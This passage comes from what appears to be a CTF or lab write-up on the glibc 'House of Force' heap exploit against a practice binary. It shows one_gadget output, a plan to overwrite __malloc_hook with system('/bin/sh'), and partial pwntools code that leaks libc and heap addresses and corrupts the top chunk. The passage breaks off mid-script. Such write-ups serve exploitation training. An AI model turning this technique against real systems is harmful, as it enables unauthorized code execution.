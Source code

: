 ### 5. Getting Shell - Practical Code Execution

Now that we've demonstrated control flow hijacking with `0xdeadbeef`, let's turn this into real code execution by getting a shell. We'll explore several methods to achieve this.

#### Method 1: Using One-Gadget RCE

One-gadgets are addresses in libc that spawn a shell when jumped to directly.


**Find One-Gadgets**

```bash
$ ldd house_of_force 
	linux-vdso.so.1 (0x00007ffc983fe000)
	libc.so.6 => ../.glibc/glibc_2.28_no-tcache/libc.so.6 (0x000074654fc00000)
	../.glibc/glibc_2.28_no-tcache/ld.so.2 => /lib64/ld-linux-x86-64.so.2 (0x000074655014f000)
$ one_gadget ../.glibc/glibc_2.28_no-tcache/libc.so.6
0x419f6 execve("/bin/sh", rsp+0x30, environ)
constraints:
  address rsp+0x40 is writable
  rax == NULL || {rax, "-c", r12, NULL} is a valid argv

0x41a4a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL || {[rsp+0x30], [rsp+0x38], [rsp+0x40], [rsp+0x48], ...} is a valid argv

0xdf681 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL || {[rsp+0x50], [rsp+0x58], [rsp+0x60], [rsp+0x68], ...} is a valid argv

```

Just try to use `libc.address + one_gadget` in place of `0xdeadbeef`

```python
malloc(b'24', p64(libc.address + one_gadget))
```

None of these worked for me...

#### Method 2: Calling system("/bin/sh")

If one-gadgets don't work due to constraint issues, we can call `system("/bin/sh")` directly.

We will overwrite `__malloc_hook` with the `system()` address we get from libc. When `__malloc_hook` is called, the first argument (size requested from malloc) will be passed as the argument to `system()`.


```python
# -- Exploit goes here --

io = start()

puts_address, heap_address = leak_addresses()
log.info(f"Leaked puts address: {hex(puts_address)}")
log.info(f"Leaked heap address: {hex(heap_address)}")

libc.address = puts_address - libc.symbols['puts']
log.info(f"Leaked libc base {hex(libc.address)}")
# Calculate libc base from leaked puts address

malloc_hook_addr = libc.symbols['__malloc_hook']
log.info(f"__malloc_hook address: {hex(malloc_hook_addr)}")

# First malloc to setup top chunk
# malloc(b'24',b'A'*24+p64(0xdeadbeef))
malloc(b'24',b'A'*24+p64(0xffffffffffffffff))
```